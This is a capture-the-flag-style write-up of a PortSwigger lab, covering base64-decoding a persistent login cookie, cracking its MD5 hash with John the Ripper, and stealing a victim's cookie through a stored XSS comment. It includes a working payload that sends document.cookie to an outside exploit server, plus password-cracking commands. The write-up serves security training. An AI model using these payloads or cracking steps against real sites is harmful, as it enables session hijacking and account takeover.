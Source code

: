 ### Offline password cracking : PRACTITIONER

---

> My credentials `wiener:peter`.
> Victim username `carlos`.

> First thing's first, login as `wiener` and observe the stay logged in cookie using BURPSUITE PROXY HTTP history feature.

![lab11-login](./screenshots/lab10-login.png)

> See that the `GET` request to fetch the user has a cookie called `stay-logged-in`.

![[Pasted image 20230702175008.png]]

> Similar to [[Portswigger/Authentication/Lab 10|Lab 10]], this cookie is constructed as the base64 encoding of the username + ':' + MD5Hash(password).
```
stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;
```

> Decoding it using the Base64 command line tool.
``` bash
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" > cookie.txt | base64 cookie.txt -d
```
> Writing the cookie first into a file `cookie.txt`, then using the pipe operator to take the contents of the file and decode it.

> This outputs the following:
```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```
> This means the cookies content consists of the username, `:`, and something encoded.

> Checking its length: 
```bash
cookie="51dc30ddc473d43a6011e9ebba6ca770" 
echo -n "$cookie" | wc -c
```
> This outputs 32, and since it consists of the hexadecimal characters, then it is $32*4=128$ bits, so its probably an `MD5` hash.

> Using John the Ripper tool to unhash this string. We first need to store it in a file.
```bash
echo "wiener:51dc30ddc473d43a6011e9ebba6ca770" > hash
john --format=raw-md5 hash
```
> This outputs the following:
```bash
wiener:peter
```

> This means that the cookie is stored as follows:
```
base64(username:MD5(password))
```

> Next step, is to check the XSS vulnerability in the comment section.
> Trying a simple alert payload does the job.
```
<script>alert()</script>
```

![[Pasted image 20230702175307.png]]

> Posting the comment and visiting the page again pops up the alert.
> Trying to display the cookie using the alert.
```
<script>alert(document.cookie)</script>
```

![[Pasted image 20230702175741.png]]

> This displays the same cookie as the one in the GET and POST requests.
> This is now a stored XSS attack, but we need that to work for the user carlos.
> To do that, we need to send that pop up somewhere where we can see it: the exploit server logs.

> To do that, instead of the alert function, send the cookie using the `document.location` javascript property. This property loads and changes the URL. We can also add strings and assign ones to it.
> Therefore, our payload for the comment will be as such:
```
<script>document.location='exploit-server-url'+document.cookie</script>
```

![[Pasted image 20230702180219.png]]

> Filling in the URL:
```
<script>document.location='https://exploit-0a000015043e518182e2285a014c0022.exploit-server.net/exploit'+document.cookie</script>
```
> Adding this payload as a comment on one of the posts then checking the exploit server logs.

![[Pasted image 20230702180524.png]]

> We see the same IP address and that one has the stay logged in cookie as the one we used for weiner.
> However, the before last line contains a different IP address with a different value for the stay logged in cookie.
```
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

> Following the same steps as the cookie above, we first base64 decode it.
``` bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" > cookie.txt | base64 cookie.txt -d
```

> This results in: `carlos:26323c16d5f4dabff3bb136f2460a943`.
> Meaning we obtained the cookie for the user `carlos`, now we need to find the string that when MD5 hashed gets this hash `26323c16d5f4dabff3bb136f2460a943` using John the Ripper.
``` bash
echo "carlos:26323c16d5f4dabff3bb136f2460a943" > hash
john --format=raw-md5 hash
```
> Storing it first in a file.

> Took too long, so I went to this [website](https://md5decrypt.net/en/) to complete it faster.

![[Pasted image 20230702181224.png]]

> Revealing the password as `onceuponatime`.
> Loggin in as carlos and deleting the account completes the lab.

---
